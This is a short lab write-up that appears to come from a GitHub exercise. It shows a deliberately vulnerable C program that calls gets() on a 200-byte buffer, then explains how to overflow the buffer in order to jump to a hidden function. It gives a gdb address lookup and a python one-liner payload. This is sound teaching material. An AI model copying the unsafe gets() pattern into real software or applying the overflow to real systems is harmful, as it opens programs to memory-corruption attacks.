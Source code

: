 # Bof1
### Program code:
```
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        prinf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
>Goal: print out the text "Congratulation!" using *secretFunc()*
### Solution:
1. Get the address of *secretFunc()*:
   - Load the program into *gdb* and type `disas secretFunc`
     
     ![](img/bof1/secretFunc.JPG)
     
   - The first line show us the address of *secretFunc()* which is `0x0804846b`
2. Do the attack:
   - To overflow the memory, we need to input *200 random bytes* + *4 bytes for the EBP of vuln()* + *4 bytes address of secretFunc()*
   - Quit *gdb* and type `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") |./bof1.o`
     
     ![](img/bof1/attackbof1.JPG)
     
   - Goal achieved!
